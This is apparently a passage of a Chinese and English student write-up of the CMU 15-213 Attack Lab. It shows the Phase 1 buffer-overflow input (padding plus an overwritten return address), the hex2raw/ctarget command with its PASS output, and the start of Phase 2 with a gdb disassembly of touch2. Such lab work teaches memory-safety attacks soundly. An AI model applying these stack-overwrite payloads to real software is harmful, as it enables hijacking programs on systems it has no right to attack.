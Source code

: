 ```
2d 2d 2d 2d 2d 2d 2d 2d
2d 2d 2d 2d 2d 2d 2d 2d
2d 2d 2d 2d 2d 2d 2d 2d
2d 2d 2d 2d 2d 2d 2d 2d
2d 2d 2d 2d 2d 2d 2d 2d
c0 17 40 00 00 00 00
```

你会发现最后一行少了一个字节，因为`Get()`函数需要在最后补一个`\0`。

```bash
# cat result1 | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D C0 17 40 00 00 00 00 
```

40 pading bytes, and the return address 0x4017c0 (getbuf). the entire return address should be typed, as the Gets() place a '\0' at the end of input.

## Phase 2

Phase 2稍微复杂些，因为我们需要给%rdi传入一个`unsinged`类型，具体的值在handout的cookie.txt中，这里是

```bash
# cat cookie.txt 
0x59b997fa
```

通过反汇编，我们可以看到touch2的地址是0x4017ec：

```
(gdb) disas touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:	sub    $0x8,%rsp
   0x00000000004017f0 <+4>:	mov    %edi,%edx
   0x00000000004017f2 <+6>:	movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:	cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:	mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:	mov    $0x1,%edi
   0x000000000040180e <+34>:	mov    $0x0,%eax
   0x0000000000401813 <+39>:	callq  0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:	mov    $0x2,%edi
   0x000000000040181d <+49>:	callq  0x401c8d <validate>
   0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:	mov    $0x403110,%esi
   0x0000000000401829 <+61>:	mov    $0x1,%edi
   0x000000000040182e <+66>:	mov    $0x0,%eax
   0x0000000000401833 <+71>:	callq  0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:	mov    $0x2,%edi
   0x000000000040183d <+81>:	callq  0x401d4f <fail>
   0x0000000000401842 <+86>:	mov    $0x0,%edi
   0x0000000000401847 <+91>:	callq  0x400e40 <exit@plt>
End of assembler dump.
(gdb) 
```
